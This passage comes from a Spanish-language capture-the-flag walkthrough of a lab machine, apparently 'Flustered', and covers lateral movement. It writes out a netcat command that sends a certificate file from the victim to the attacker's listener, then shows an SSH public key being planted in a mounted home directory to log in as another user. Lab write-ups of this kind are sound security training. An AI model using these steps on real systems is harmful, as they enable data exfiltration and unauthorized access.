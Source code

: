 ### Movimiento Lateral

* * *

Nos econtramos logueados con el usuario `www-data` y enumerando permisos y privilegios poco podemos hacer. Recordamos que no pudimos montar el `vol1` de gluster por falta de certificado en `/etc/ssl`. Ya que nos encontramos dentro de la máquina víctima podemos descargarnos esos certificados en nuestro equipo EN `/usr/lib/ssl` y así poder montar el `vol1`

```bash
# MAQUINA VICTIMA
www-data@flustered:/etc/ssl$ nc 10.10.14.34 443 < glusterfs.ca

# MAQUINA ATACANTE
❯ nc -nlvp 443 > glusterfs.ca
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.11.131] 46126
```

Montamos el `vol1` esta vez sin problemas y accediendo a la montura observamos que nos econtramos dentro del directorio personal de `jennifer`

```bash
❯ ls -la
drwxr-x--- yorch lpadmin 4.0 KB Mon Oct 25 07:49:56 2021  .
drwxr-xr-x root  root     18 B  Tue Dec 13 10:27:10 2022  ..
drwx------ yorch lpadmin 4.0 KB Mon Oct 25 07:44:58 2021  .gnupg
drwx------ yorch lpadmin 4.0 KB Tue Dec  7 20:54:21 2021  .ssh
lrwxrwxrwx yorch lpadmin   9 B  Thu Oct 28 08:59:15 2021  .bash_history ⇒ /dev/null
.rw-r--r-- yorch lpadmin 220 B  Mon Sep 20 14:27:59 2021  .bash_logout
.rw-r--r-- yorch lpadmin 3.4 KB Mon Sep 20 14:27:59 2021  .bashrc
.rw-r--r-- yorch lpadmin 807 B  Mon Sep 20 14:27:59 2021  .profile
.r-------- yorch lpadmin  33 B  Tue Dec 13 09:38:14 2022  user.txt
```

Como tenemos acceso a su directorio `.ssh` podemos crearnos un par de claves en nuestro equipo y depositar la clave `id_rsa.pub` en el directorio `\mnt\flustered\.ssh` como `authorized_keys`. Con esto podemos loguearnos como jennifer desde nuestro equipo sin proporcionar ninguna clave

```bash
❯ ssh jennifer@10.10.11.131
The authenticity of host  10.10.11.131 (10.10.11.131)' can't be established.
ECDSA key fingerprint is SHA256:LupmIqJooENvHtcmU6o+VGqBueq8vhR9BU0BbTYQ52E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.131' (ECDSA) to the list of known hosts.
Linux flustered 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jennifer@flustered:~$ whoami
jennifer
```

